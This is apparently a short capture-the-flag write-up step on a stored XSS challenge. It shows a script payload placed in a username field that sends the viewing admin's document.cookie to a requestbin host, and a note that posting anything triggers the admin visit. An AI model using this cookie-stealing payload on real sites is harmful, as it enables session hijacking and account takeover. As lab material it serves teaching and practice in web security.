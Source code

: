 # xss_5 - Injectable Username
- This time, nothing that we check is injectable! As a last resort let’s try the username.
- Payload, `<script>document.location="http://requestbin.fullcontact.com/18kxbln1/?c="+document.cookie;</script>`
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528363696461_Screenshot+2018-06-07+02.25.25.png)

- After creating the user, we know admin’s only visit when we post trash, so post anything at all to pop the admin user.
![](https://d2mxuefqeaa7sj.cloudfront.net/s_D1CF04A7F2975FBE28B89C00E052CDE16A28AD0D6622A39C029738E493BE6857_1528363687175_Screenshot+2018-06-07+02.26.21.png)
